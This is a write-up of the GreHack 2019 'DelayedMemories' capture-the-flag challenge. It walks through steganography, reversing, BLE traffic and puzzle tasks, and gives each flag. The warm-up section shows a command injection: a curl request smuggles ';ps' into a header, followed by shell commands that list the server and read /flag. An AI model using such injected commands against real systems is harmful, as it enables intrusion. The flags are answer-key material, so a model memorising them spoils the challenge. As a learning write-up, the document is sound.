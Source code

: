 DelayedMemories - GreHack challenge 2019
========================================

Introduction
------------

On Saturday 2019-09-21, https://twitter.com/GrehackConf/status/1175469861528584192 :

    The #DelayedMemories challenge is now online (right on time!): https://2019.challenge.grehack.fr/ ! Go pwn it and try to win your ticket for #GreHack19.


1. Real-world steganography / Aztec
-----------------------------------

Challenge:

    https://2019.challenge.grehack.fr/data/s0/Aztec_7bc0d88e744cdf8a24cd4f027831be9016372e405dc55188deb45ae64178e406.gif

Solution:

.. code-block:: sh

    ffmpeg -i Aztec_7bc0d88e744cdf8a24cd4f027831be9016372e405dc55188deb45ae64178e406.gif frame%06d.png

On frame 115: ``GH19{GoodOldMemories!}``


2. Warm-up
----------

Challenge:

    Small app, big hole. You know the drill: go break it.
    The challenge is accessible with this url.
    https://0yp0oivpnun7jthof6si6foppfkmlf.challenge.grehack.fr/
    https://2019.challenge.grehack.fr/data/s3/warm-up_b15608b099559d2cfd806b2755f3454fdbb6079b09519da6521ead488669e06e.zip

Command injection in ``IsItDown``::

    pingCommand := fmt.Sprintf("ping -c 1 -W 150 %s", address)
    command := exec.CommandContext(ctx, "sh", "-c", pingCommand)

Exploitation:

.. code-block:: sh

    $ curl -kv https://0yp0oivpnun7jthof6si6foppfkmlf.challenge.grehack.fr/is-it-down -H 'Inspect-IP: 127.0.0.1;ps'

    < HTTP/1.1 200 OK
    < Content-Length: 475
    < Content-Security-Policy: default-src 'none'; font-src data:;
        img-src 'self'; style-src 'unsafe-inline'; frame-src https://www.openstreetmap.org;
    < Content-Type: application/json
    < Date: Sat, 21 Sep 2019 19:03:54 GMT
    < Referrer-Policy: no-referrer
    < X-Content-Type-Options: nosniff
    < X-Frame-Options: DENY
    < X-Xss-Protection: 1; mode=block
    < Connection: close
    <
    * Closing connection 0
    * TLSv1.2 (OUT), TLS alert, close notify (256):
    {"ip":"127.0.0.1;ps","down":false,"trace":
    "PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.\n
    64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.091 ms\n\n
    --- 127.0.0.1 ping statistics ---\n
    1 packets transmitted, 1 received, 0% packet loss, time 0ms\n
    rtt min/avg/max/mdev = 0.091/0.091/0.091/0.000 ms\n
    PID   USER     TIME  COMMAND\n
        1 nobody    0:01 /opt/echoip/echoip -d -f country.mmdb
            -c city.mmdb -a asn.mmdb -H Inspect-IP -H X-Forwarded-For\n
      280 nobody    0:00 ps\n"}

    $ pwd
    /opt/echoip

    $ ls -l
    total 81984
    -rw-r--r--    1 root     root       6552522 Sep  3 20:18 asn.mmdb
    -rw-r--r--    1 root     root      62850557 Sep  4 11:39 city.mmdb
    -rw-r--r--    1 root     root       3909254 Sep  4 11:34 country.mmdb
    -rwxr-xr-x    1 root     root      10582436 Sep  7 20:19 echoip
    -rw-r--r--    1 root     root         48422 Sep  7 20:18 index.html

    $ ls -l /
    /:
    total 60
    drwxr-xr-x    1 root     root          4096 Aug 26 12:45 bin
    drwxr-xr-x    5 root     root           340 Sep 21 17:36 dev
    drwxr-xr-x    1 root     root          4096 Sep 21 17:36 etc
    -rw-r--r--    1 root     root            51 Sep 20 23:23 flag
    drwxr-xr-x    2 root     root          4096 Aug 20 10:30 home
    drwxr-xr-x    1 root     root          4096 Aug 20 10:30 lib
    drwxr-xr-x    5 root     root          4096 Aug 20 10:30 media
    drwxr-xr-x    2 root     root          4096 Aug 20 10:30 mnt
    drwxr-xr-x    1 root     root          4096 Sep  7 20:19 opt
    dr-xr-xr-x  107 root     root             0 Sep 21 17:36 proc
    drwx------    2 root     root          4096 Aug 20 10:30 root
    drwxr-xr-x    2 root     root          4096 Aug 20 10:30 run
    drwxr-xr-x    2 root     root          4096 Aug 20 10:30 sbin
    drwxr-xr-x    2 root     root          4096 Aug 20 10:30 srv
    dr-xr-xr-x   13 root     root             0 Sep 21 17:36 sys
    drwxrwxrwt    2 root     root          4096 Aug 20 10:30 tmp
    drwxr-xr-x    1 root     root          4096 Aug 20 10:30 usr
    drwxr-xr-x    1 root     root          4096 Aug 20 10:30 var

    $ cat /flag
    GH19{challenges_for_the_ctf_will_not_be_that_easy}


3. Stacked
----------

Challenge:

    The flag doesn't follow any particular format.
    https://2019.challenge.grehack.fr/data/s1/stacked_ac5705f30623abd008a3d0eb1b026f3d58331d37065dfa07c7110c5f70fcf635

``file``::

    ELF, 64-bit LSB executable, AMD x86-64, version 1 (SYSV)

Functions::

    makecontext, swapcontext - manipulate user context
    void makecontext(ucontext_t *ucp, void (*func)(), int argc, ...);
    int swapcontext(ucontext_t *oucp, ucontext_t *ucp);

The program creates a ROP-chain an jump to it.

The ROP chain compares bytes of the input until it matches::

    Fr3ak1nR0P


4. BLE everywhere
-----------------

Challenge:

    You were drinking a well earned coffee when you saw at the neighbouring table a strange cup. Its owner changed the picture on the side of the mug with his phone. You happened to sniff Bluetooth traffic while he was doing so. Your goal is to retrieve the image printed on the cup's screen. Flag is case sensitive and doesn't contain any spaces.

    https://2019.challenge.grehack.fr/data/s2/flag_1e2462020c85b7906335363310d73d6db9e3d8c138e9ef4fd0f146a526331684.pcap

Documentation:

* https://ask.wireshark.org/question/584/problems-decoding-ble-capture-from-another-wireshark-program/
  => Is this captured using the Nordic BLE Sniffer?
  If so then you need to go to Preferences -> Protocols -> DLT_USER -> DLT Table and add a new entry for DLT User 10 (DLT=157) with Payload protocol ``nordic_ble``.

::

    1612	20.364504	Master_0xaf9a8a53	Slave_0xaf9a8a53	ATT	53	Sent Write Command, Handle: 0x000d (Unknown: Unknown)

Export to JSON and::

    jq -r '.[] | ._source.layers.btatt["btatt.value"]' < export.json | tr -d : | xxd -p -r > written_data.bin

Binary data, with many ``ff``.
Build image from binary, by guessing pixel encoding (black and white, 1 bit/pixel) and width (264 pixels).
Result::

    GH19{Bluetoothnotsosmart}


5. The GRID
-----------

Challenge:

    https://2019.challenge.grehack.fr/data/s4/thegrid_80f6b0f70565a2de15eab05c3ad603d18399bc2af1eabf870da6f2e4955b2a17

``file``: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=b1136267760732a382a2c831b7dd30d8de3a6ac7, for GNU/Linux 3.2.0, stripped

grid at ``.data:0000000000004060`` ::

    flag = movements?
    grid : width=24
    => only spaces

    commands:
        0: x -= 2 (<<)
        1: y -= 2 (up-up)
        2: x += 1   (->)
        3: y += 1 (down)

    start = g_position__high_y__low_x = 0x2E00000015LL : x=21, y=46
    end : x=2, y=1

    OOOOAOO|||||OOOOOOOOOOO
    OO OOOO|||||OOOOO OOOOO   <- end at the beginning
    OO OAOA|||||OOOOO OOOOO
    O  OOOO|          !!OOO
    O OOOOO| |!!!!!!!!!!OOO
    O O//OA| |!!!!!!!!!!OOO
    O O//OO|        !!!!OOO
    O OOOOO|||!!!!! !!!!OOO
    O OOOOO|||||AAA AAOOOOO
    O     ||||||AAA AAOOOOO
    O---- ||||||AAA      OO
    OOO|  ||||||AAAAAAOO OO
    OOO| |||||||AAAAAAOO OO
    OOO| |OOA|AAAAAAAAOO OO
    OOO| |OOA|AAAAAAAAOO OO
    OOO| |OOO|||||||||OO OO
    OOO| |_____OO|||||OO OO
    OOO|       |O|||||OO OO
    OOO------| |O|||||OO OO
    OOXXXXXXO| |O|||||   OO
    OOO//XXXO|         OOOO
    OOO//XXXO| OO|||||OOOOO
    OOO!!XXXO| OO|||||OOOOO
    OOO!!XXXO  OO||//////OO
    OOO!!OOOO OOO||//////OO
    OO        OOO|||||||OOO
    OO !!OO OOOOO|||||O|OOO
    OO !!OO OOOOO|||||O|OOO
    OO !!OO OOOOOOOOOOO|OOO
    OO OOOO       OOOOO|OOO
    OO OOOOOOOOOO OOOOO|OOO
    OO O|||||OOOO   OOO|OOO
    OO O|||||OOOOOO OOO|OOO
    OO O|||||OOOOO  OOO|OOO
    OO O||||       OOOO|OOO
    OO O|||||OOOOO OOOO|OOO
    OO O|||||OOOOO OOOOOOOO
    OO O|||||OOOOO     OOOO
    OO  |||||OOOOOOOOO OOOO
    OOO |||||OOOOOOOOO OOOO
    OOO         OOOOOO OOOO
    OOOO|||||OOOOOOOOO OOOO
    OOOO|||||OOOOOOOOO OOOO
    OOOO|||||OOOOOOOO  OOOO
    O////////OOOOOOOO O   O
    O////////OOOOOOOO   O O
    O////////OOOOOOOOOOOO O  <- start
    OOOOOOOOOOOOOOOOOOOOOOO

Flag::

    LeAd@Ze@VAY

6. The puzzle
-------------

Challenge::

    Can you crack the puzzle? To validate, use GH19{...}, where ... is the valid input to solve the puzzle.
    https://2019.challenge.grehack.fr/data/s5/thepuzzle_df99b9e2e69d9608858f44e765774cf9f5e7afd19c0d40e5661b5f594198ab09.tgz

Files : ./script.enc and ./thepuzzle

* arg : path to .debugging_script file and key
* key : at least 4 chars, base64-encoded

* crypto : 16-bytes state, xor stream cipher

Grammar:

* file with begin...end => functions?
* ``$ + register`` => reg value (x86)
* ...

The parent debugs the child by executing a "program" given as a script file.

``.text:00000000000035B1`` is a function that decrypts functions by matching pattern ``48 89 e5 mov %rsp,%rbp`` and ``90 90 90 c3 nop;nop;nop;retq``

The list of functions can be obtained through: ``objdump --dwarf thepuzzle |grep FDE``

Child:

* Key schedule "This program cannot be run in DOS mode"

Try to decrypt ``script.enc`` by bruteforcing the key... it works!::

    i=1262
    KEY=b'\xee\x04\x00\x00'
    bytearray(b'begin MxWrPI3e73de96\nw 4070-106-3947+1539*3540-5424645 0-0*0-0+0-0+4\nwr 275155+497936+1369725 0+0+1+')

The program:

* Takes a screenshot (X11)
* Computes a SHA256
* XOR with 0x19
* compares the result with::

      .data:000000000020B220 g_final_flag_encrypted db 3Eh, 20h, 0Bh, 0DFh, 0A8h, 67h, 6Ah, 5Fh, 57h, 97h
      .data:000000000020B220                 db 78h, 11h, 0AEh, 9Ch, 28h, 3Bh, 5Bh, 0C4h, 0AAh, 9Dh
      .data:000000000020B220                 db 0E7h, 0FCh, 0DDh, 10h, 56h, 0C1h, 86h, 11h, 0A3h, 7Eh
      .data:000000000020B220                 db 9Fh, 3Ah

Reverse algo:

* final check = 3e200bdfa8676a5f57977811ae9c283b5bc4aa9de7fcdd1056c18611a37e9f3a
* xored with 0x19: 273912c6b17e73464e8e6108b785312242ddb384fee5c4094fd89f08ba678623
* bruteforce 8 letters: krH9kkGk
* Try ``GH19{krH9kkGk}`` => Try again :(
* Images encoded at the end of the ELF file::

      # is 0
      G is 1
      r is 2
      e is 3
      H is 4
      a is 5
      c is 6
      k is 7
      1 is 8
      9 is 9

Flag::

  GH19{72497717}

Final:

    CHAMPAGNE!

    Congratulations! You have solved the GreHack 2019 Challenge. We would have never guessed *YOU* would come to the end. You can see your final ranking on the scoreboard.
    Please send us an email at challenge@grehack.fr with your nickname and the flag of the last step, so that we can definitively validate your... validation. And do not hesitate to give us your feedback on Delayed Memories.
    Kudos again and we hope to see you at GreHack the 15/11/19.
